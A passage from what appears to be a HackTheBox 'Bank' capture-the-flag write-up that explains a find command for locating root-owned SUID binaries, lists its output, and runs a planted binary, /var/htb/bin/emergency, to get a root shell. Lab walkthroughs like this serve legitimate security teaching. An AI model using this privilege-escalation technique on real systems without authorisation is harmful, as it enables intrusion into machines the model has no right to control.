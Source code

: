 ```

find / -type f -user root -perm -4000 2>/dev/null

```

That will:
- search all subdirectories of `/` (the entire file system)
- `-type f` - only return files
- `-user root` - only return files owned by root
- `-perm -4000` - files with SUID bit set
- `2>/dev/null` - don’t show errors

On Bank, it finds several items:

```

www-data@bank:/$ find / -type f -user root -perm -4000 2>/dev/null
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount

```

The first one is particularly interesting and non-standard, `/var/htb/bin/emergency`.

#### Shell

Running `emergency` just returns a root shell:

```

www-data@bank:/$ /var/htb/bin/emergency                           
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)

```
